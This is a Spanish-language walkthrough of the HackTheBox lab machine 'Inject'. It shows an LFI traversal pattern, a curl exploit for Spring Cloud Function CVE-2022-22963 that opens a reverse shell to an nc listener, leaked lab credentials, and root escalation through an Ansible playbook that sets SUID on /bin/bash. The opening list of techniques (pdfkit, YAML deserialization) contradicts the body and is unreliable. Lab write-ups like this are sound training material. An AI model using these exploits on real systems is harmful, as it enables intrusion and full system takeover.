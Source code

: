 ```yaml
---
title: HackTheBox - Inject
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'LFI', 'RCE Spring Boot (CVE-2022-22963)', 'Information Leakage', 'Ansible Playbook']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Inject/logo.jpeg
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Inject Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **RCE pdfkit 0.8.6 (CVE-2022-25765), Information Leakage, Leak Information, YAML Deserialization**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Inject/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Inject/02-versions.png)

c. Al visitar la página web tendremos un apartado de `/upload` que nos permitirá subir una imagen

![](/assets/images/HTB/Easy/Inject/03-upload.png)

* Al capturar la petición con Burp Suite nos fijamos que carga la imagen mediante un parámetro

    ![](/assets/images/HTB/Easy/Inject/04-burp.png)

* La web es vulnerable a un LFI con el patrón: `..///////..////..//////etc/passwd` [HackTricks - LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

> Nos mencionan en HackTricks que si al indicarle un directorio, a través del LFI, nos lista los archivos que existen, es una aplicación creada con Java.
{: .prompt-info }

![](/assets/images/HTB/Easy/Inject/05-list.png)

d. Con lo anterior en mente buscamos ficheros que contengan información relevante.

![](/assets/images/HTB/Easy/Inject/06-pom.png)

* Esta versión de **SpringBoot** es vulnerable a un RCE [CVE-2022-22963](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py)

    ![](/assets/images/HTB/Easy/Inject/07-curl.png)

* Nos entablaremos una reverse shell

    ```bash
    ❯ curl -s -X POST http://10.10.11.204:8080/functionRouter -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(\"bash -c {echo,'[Payload Base64]'}|{base64,-d}|{bash,-i}\")" -H "Accept-Encoding: gzip, deflate" -H "Accept: */*" -H "Accept-Language: en" -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36" -H "Content-Type: application/x-www-form-urlencoded"
    -------------------------------------------------------------------------
    ❯ nc -lvnp 443
    frank@inject:/$ 
    ```

### Escalada de Privilegios 💹

a. En nuestro directorio encontraremos un directorio **.m2** el cual contiene un fichero con las credenciales del usuario phil

```xml
<username>phil</username>
<password>DocPhillovestoInject123</password>
```

b. Subimos el [pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1)

```bash
phil@inject:/tmp$ ./pspy64

<SNIP>
2023/09/21 16:56:01 CMD: UID=0     PID=5214   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

> La tarea es del usuario **root**. Lo que hace es ejecutar todos los ficheros *.yml en el directorio /opt/automation/tasks/
{: .prompt-info }

* Al investigar por alguna forma de escalar privilegios, encontramos este [post](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)

* Creamos un fichero .yml en el que el comando a ejecutar será `chmod +s /bin/bash`

    ```bash
    phil@inject:/opt/automation/tasks$ ls -la /bin/bash
    -rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
    phil@inject:/opt/automation/tasks$ cat book.yml 
    - hosts: localhost
    tasks:
        - name: RShell
        command: chmod +s /bin/bash

    phil@inject:/opt/automation/tasks$ ls -la /bin/bash
    -rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
    phil@inject:/opt/automation/tasks$ bash -p
    bash-5.0# whoami
    root
    ```